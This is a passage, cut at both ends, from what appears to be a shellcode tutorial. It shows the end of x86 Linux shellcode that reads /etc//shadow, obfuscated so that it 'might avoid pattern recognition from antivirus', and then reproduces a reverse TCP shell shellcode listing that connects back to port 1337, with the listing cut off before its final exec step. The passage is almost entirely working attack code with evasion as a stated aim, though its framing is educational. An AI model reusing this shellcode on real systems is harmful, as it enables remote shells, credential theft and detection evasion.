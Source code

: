 ```nasm
        dec eax
        int 0x80

        mov al,0x1              ; exit
        int 0x80
```

As you can see, we've obfuscated the placement of "/etc//shadow" on the stack by intermixing it with non-interactive operations.  Even though this may not seem as effective as the constant-addition method we used before, it only increased the shellcode by 11 bytes and still might avoid pattern recognition from antivirus.

Finally, we'll take a look at [Reverse TCP Shell](http://shell-storm.org/shellcode/files/shellcode-883.php) shellcode, reproduced below:

```nasm
; reverse_shell.nasm
;  - Execute a reverse tcp shell
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-883.php

    global _start

section .text
_start:

        push 0x66
        pop eax
        push 0x1
        pop ebx
        xor edx,edx
        push edx
        push ebx
        push 0x2
        mov ecx,esp
        int 0x80

        xchg edx,eax
        mov al,0x66
        push 0x101017f        ; 127.1.1.1
        push word 0x3905      ; port: 1337
        inc ebx
        push bx
        mov ecx,esp
        push 0x10
        push ecx
        push edx
        mov ecx,esp
        inc ebx
        int 0x80

        push 0x2
        pop ecx
        xchg edx,ebx

loop:
        mov al,0x3f
        int 0x80
        dec ecx
        jns loop

        mov al,0xb
        inc ecx
        mov edx,ecx
```
